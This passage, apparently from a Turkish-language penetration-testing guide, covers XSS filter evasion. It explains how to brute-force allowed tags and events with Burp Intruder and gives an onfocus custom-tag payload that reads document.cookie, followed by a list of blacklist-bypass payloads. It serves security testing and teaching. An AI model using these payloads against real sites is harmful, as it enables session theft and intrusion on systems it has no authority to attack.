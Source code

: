 [**https://portswigger.net/web-security/cross-site-scripting/cheat-sheet**](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) adresine gidin ve _**Etiketleri panoya kopyala**_ seçeneğine tıklayın. Ardından, hepsini Burp intruder kullanarak gönderin ve herhangi bir etiketin WAF tarafından kötü niyetli olarak keşfedilip keşfedilmediğini kontrol edin. Hangi etiketleri kullanabileceğinizi keşfettikten sonra, geçerli etiketleri kullanarak **tüm olayları brute force** edebilirsiniz (aynı web sayfasında _**Olayları panoya kopyala**_ seçeneğine tıklayın ve önceki prosedürü izleyin).

### Özel etiketler

Eğer geçerli bir HTML etiketi bulamadıysanız, **özel bir etiket oluşturmayı** deneyebilir ve `onfocus` özelliği ile JS kodu çalıştırabilirsiniz. XSS isteğinde, URL'yi `#` ile bitirmeniz gerekiyor, böylece sayfa **o nesneye odaklanır** ve kodu **çalıştırır**:
```
/?search=<xss+id%3dx+onfocus%3dalert(document.cookie)+tabindex%3d1>#x
```
### Blacklist Bypasses

Eğer bir tür kara liste kullanılıyorsa, bunu bazı basit hilelerle aşmayı deneyebilirsiniz:
```javascript
//Random capitalization
<script> --> <ScrIpT>
<img --> <ImG

//Double tag, in case just the first match is removed
<script><script>
<scr<script>ipt>
<SCRscriptIPT>alert(1)</SCRscriptIPT>

//You can substitude the space to separate attributes for:
/
/*%00/
/%00*/
%2F
%0D
%0C
%0A
%09

//Unexpected parent tags
<svg><x><script>alert('1'&#41</x>

//Unexpected weird attributes
<script x>
<script a="1234">
<script ~~~>
<script/random>alert(1)</script>
<script      ///Note the newline
>alert(1)</script>
<scr\x00ipt>alert(1)</scr\x00ipt>

//Not closing tag, ending with " <" or " //"
<iframe SRC="javascript:alert('XSS');" <
<iframe SRC="javascript:alert('XSS');" //

//Extra open
<<script>alert("XSS");//<</script>

//Just weird an unexpected, use your imagination
<</script/script><script>
<input type=image src onerror="prompt(1)">

//Using `` instead of parenthesis
onerror=alert`1`
```